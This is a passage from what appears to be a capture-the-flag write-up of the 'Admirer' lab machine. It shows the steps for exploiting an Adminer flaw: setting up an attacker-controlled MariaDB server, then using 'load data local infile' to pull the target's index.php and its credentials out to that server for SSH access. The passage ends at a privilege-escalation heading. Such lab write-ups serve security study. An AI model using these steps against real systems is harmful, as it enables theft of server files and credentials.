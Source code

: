 Research shows this version is vulnerable ([Foregenix Blog](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)).  
The attack allows connecting Adminer to our **attacker-controlled MySQL server**.

We create a local database and user:

```bash
sudo systemctl start mariadb
sudo mysql -uroot
create database Pwned;
use Pwned;
create user 'kali'@'10.10.10.187' identified by 'kali123';
GRANT ALL on Pwned.* to 'kali'@'10.10.10.187';
create table data(output varchar(1024));
show tables;
describe data;
```

![[mariadb_creation.png]]
![[mariadb_table_data.png]]

Using Adminer, we execute SQL commands against our database:

![[login_adminer.png]]

Go to SQL Command section:

![[adminer_sql_command.png]]

And write the command:

```bash
load data local infile "/var/www/html/index.php"
into table Pwned.data
```

![[adminer_sql_command_execued.png]]

And now let’s check the data of the table:

```bash
select output from data;
```

![[select_output_from_data.png]]

We extract new credentials from the table.

Let’s try the credentials on SSH as `waldo`:

![[GitHub Documentation/EASY/HTB_Admirer_Writeup/screenshots1/user_flag.png]]

🏁 **User flag obtained**

---
## 4. Privilege Escalation
